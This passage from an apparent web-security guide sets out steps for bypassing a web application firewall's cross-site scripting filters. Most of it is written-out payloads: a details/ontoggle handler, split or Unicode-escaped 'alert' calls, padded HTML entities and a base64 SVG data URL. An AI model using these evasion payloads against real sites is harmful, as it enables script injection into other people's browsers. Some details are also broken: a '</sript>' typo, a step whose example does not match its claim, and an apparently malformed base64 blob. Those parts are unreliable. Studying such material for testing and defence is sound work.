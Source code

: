 Search online for known bypasses and vulnerabilities related to the WAF in question. For example, assume you find that the WAF can be bypassed using the `Java\tScript` alternative.

Step 2: Fuzzing

Use a tool like Burp Suite to send various XSS payloads and observe the server's responses. In our example, assume you discover that the WAF detects and blocks the `<script>alert(1)</sript>` payload.

Step 3: Exploit the WAF's limitations

Since WAFs might not be updated, target newer HTML tags to bypass the WAF. In this case, try the `<details/open/ontoggle="...">` tag.

Step 4: Confuse the WAF

Combine multiple HTML tags to make the payload harder to detect. For example:

{% code overflow="wrap" %}
```html
<details/open/ontoggle=location=location.hash.split('#')[1]>#javascript:\u0061lert(1)
```
{% endcode %}

Step 5: Alternatives for `alert`

To bypass the WAF's detection of `alert`, use `window['ale'+'rt']instead`.

Step 6: Unicode characters Use Unicode characters like `\u0061` or `\u{0061}` to bypass the WAF. For example:

```html
<details/open/ontoggle=window['\u0061lert'](origin)>
```

Step 7: HTML-encoded values

Expand HTML encoded values by adding `0` after the number:

```html
<details/open/ontoggle=window['ale&#0000072;rt'](origin)>
```

Step 8: Alternatives for JavaScript scheme

Use alternatives like `Java\tScript` or `Java%09Script` to bypass the WAF:

```html
<details/open/ontoggle=window['ale'+'rt'](origin)>
```

Step 9: Exploit SVG-based XSS filters

If the WAF allows SVG-based tags, use the `use` element to import an SVG via a data URL and execute JavaScript automatically:

{% code overflow="wrap" %}
```html
<svg><use href="data:image/svg+xml;base64,PHN2ZyB4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayIgeG1sbnM6dmlzdGFydD0iaHR0cDovL3d3dy53My5vcmcvMjAwM192aXN0YXIiPjxzY3JpcHQ%2BPHNjcmVlbiB0aXRsZT0iSGlkZGVuIFNjcmVlbiI%2BXzwvc2NyZWVuPiJ9Ii8%2BCg%3D%3D">
```
{% endcode %}
